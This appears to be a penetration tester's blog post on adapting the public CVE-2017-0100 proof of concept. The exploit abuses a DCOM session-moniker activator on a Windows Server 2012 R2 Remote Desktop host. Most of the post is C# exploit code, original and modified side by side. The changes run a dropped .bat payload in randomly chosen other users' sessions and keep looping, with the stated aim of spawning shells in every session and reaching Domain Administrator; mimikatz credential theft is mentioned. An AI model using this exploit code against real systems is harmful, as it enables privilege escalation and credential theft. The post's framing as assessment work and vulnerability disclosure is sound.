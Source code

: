 ```yaml
---
layout: post
title:  "From Patch Tuesday to DA"
date:   2017-03-17 19:45:31 +0530
categories: Archive
author: Julian Catrambone
tags: [Priv-Esc,Exploit]
---
```


Recently on an assessment, I was stuck in the context of a user with low privileges on a Windows Server 2012 R2 system. This server functioned as a Remote Desktop server for the organization. I knew that if we could escalate to local administrator on the server, we would be able to use mimikatz to steal Domain Administrator credentials.

I was working with [Chris Myers](https://www.linkedin.com/in/chris-myers-54326155/) , and we had tried almost everything. Right when we were about to move on, CVE-2017-0100 came to our attention. It was the perfect vulnerability for our situation. In theory, it should allow us to execute a payload on every user with an active session on the remote desktop server. The vulnerability and proof-of-concept exploit was submitted by [James Forshaw](https://bugs.chromium.org/p/project-zero/issues/detail?id=1021);  we modified it to fit our situation. The proof of concept uses session monikers with a DCOM activator to allow a user to start an arbitrary process in another logged on user’s session.

After analyzing the original proof of concept, we still needed to make a few modifications to fit it to our situation.


## 1) Identify what types of payloads were viable with this exploit, and modify how the payload is defined and executed.


Here is the original code:

{% highlight csharp %}
Console.WriteLine("Creating Process in Session {0} after 20secs", new_session_id);
Thread.Sleep(20000);
IHxHelpPaneServer server = (IHxHelpPaneServer)Marshal.BindToMoniker(String.Format("session:{0}!new:8cec58ae-07a1-11d9-b15e-000d56bfe6ee", new_session_id));
Uri target = new Uri(Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.System), "notepad.exe"));
server.Execute(target.AbsoluteUri);
{% endhighlight %}

After identifying that the target parameter was primarily just a path to an executable, the first thing we attempted was to try a Regsvr32.exe payload brought to light by [Casey Smith's](https://twitter.com/subTee) [blog post](http://subt0x10.blogspot.com/2016/04/bypass-application-whitelisting-script.html).  However, we were unable to get the IHxHelpPaneServer server’s execute function to take parameters.

We decided that dropping a small .bat file to disk was an acceptable risk, and found a path that was accessible to every user, “C:\TEMP\”.

Here is our modified code:

{% highlight csharp %}
Console.WriteLine("Creating Process in Session {0} after 20secs", new_session_id);
Thread.Sleep(20000);
IHxHelpPaneServer server = (IHxHelpPaneServer)Marshal.BindToMoniker(String.Format("session:{0}!new:8cec58ae-07a1-11d9-b15e-000d56bfe6ee", new_session_id));
Uri target = new Uri("C:\\TEMP\\testing.bat");
server.Execute(target.AbsoluteUri);
{% endhighlight %}



## 2) Allow the exploit to execute code on each session instead of only one.


The original proof of concept would gather a session id for each session on the host, but then only execute code in one session.

Here is the original code:

{% highlight csharp %}
try
{
    int current_session_id = Process.GetCurrentProcess().SessionId;
    int new_session_id = 0;
    Console.WriteLine("Waiting For a Target Session");
    while (true)
    {
        IEnumerable<int> sessions = GetSessionIds().Where(id => id != current_session_id);
        if (sessions.Count() > 0)
        {
            new_session_id = sessions.First();
            break;
        }
        Thread.Sleep(1000);
    }
}
{% endhighlight %}

Our situation demanded that we could execute code in each user's context, instead of only the first session recorded. To do this we simply randomly picked a session in the existing “sessions” IEnumerable object, and use that session to execute our payload. Due to the nature of random selection, you may run code on the same user twice; however, due to time constraints, we were willing to accept that outcome.

Here is our modified code:

{% highlight csharp %}
try
{
    int current_session_id = Process.GetCurrentProcess().SessionId;
    int new_session_id = 0;
    Console.WriteLine("Waiting For a Target Session");
    while (true)
    {
        IEnumerable<int> sessions = GetSessionIds().Where(id => id != current_session_id);
        if (sessions.Count() > 0)
        {
            Random rnd = new Random();
            int r = rnd.Next(sessions.Count());
            new_session_id = sessions.ElementAt(r);
            break;
        }
        Thread.Sleep(1000);
    }

}
{% endhighlight %}


## 3) Keep the exploit running, until we manually kill the process.


The original code would execute once and then exit. To solve this problem, we simply let the IHxHelpPaneServer execute functionality inside of a while loop.

Here is the original code:

{% highlight csharp %}
try
{
    int current_session_id = Process.GetCurrentProcess().SessionId;
    int new_session_id = 0;
    Console.WriteLine("Waiting For a Target Session");
    while (true)
    {
        IEnumerable<int> sessions = GetSessionIds().Where(id => id != current_session_id);
        if (sessions.Count() > 0)
        {
            new_session_id = sessions.First();
            break;
        }
        Thread.Sleep(1000);
    }

    Console.WriteLine("Creating Process in Session {0} after 20secs", new_session_id);
    Thread.Sleep(20000);
    IHxHelpPaneServer server = (IHxHelpPaneServer)Marshal.BindToMoniker(String.Format("session:{0}!new:8cec58ae-07a1-11d9-b15e-000d56bfe6ee", new_session_id));
    Uri target = new Uri(Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.System), "notepad.exe"));
    server.Execute(target.AbsoluteUri);
}
catch (Exception ex)
{
    Console.WriteLine(ex);
}
{% endhighlight %}

And here is our modified code:

{% highlight csharp %}
try
{
    int current_session_id = Process.GetCurrentProcess().SessionId;
    int new_session_id = 0;
    Console.WriteLine("Waiting For a Target Session");
    while (true)
    {
        IEnumerable<int> sessions = GetSessionIds().Where(id => id != current_session_id);
        if (sessions.Count() > 0)
        {
            Random rnd = new Random();
            int r = rnd.Next(sessions.Count());
            new_session_id = sessions.ElementAt(r);
            Console.WriteLine("Creating Process in Session {0} after 20secs", new_session_id);
            Thread.Sleep(20000);
            IHxHelpPaneServer server = (IHxHelpPaneServer)Marshal.BindToMoniker(String.Format("session:{0}!new:8cec58ae-07a1-11d9-b15e-000d56bfe6ee", new_session_id));
            Uri target = new Uri("C:\\TEMP\\testing.bat");
            server.Execute(target.AbsoluteUri);
        }
        Thread.Sleep(60000);
    }

}
catch (Exception ex)
{
    Console.WriteLine(ex);
}
{% endhighlight %}

## In Conclusion

We understand that our modifications may not be perfect, but we were able to take [James Forshaw's](https://bugs.chromium.org/p/project-zero/issues/detail?id=1021) amazing work and mold it to our situation. In the end, we successfully spawned shells in each user’s context on the remote desktop server. Using those privileges we were able to escalate to Domain Administrator.

None of this would be possible without [James Forshaw](https://twitter.com/tiraniddo) for developing and releasing the original proof of concept, and [Chris Myers](https://www.linkedin.com/in/chris-myers-54326155/) for working through this problem with me!
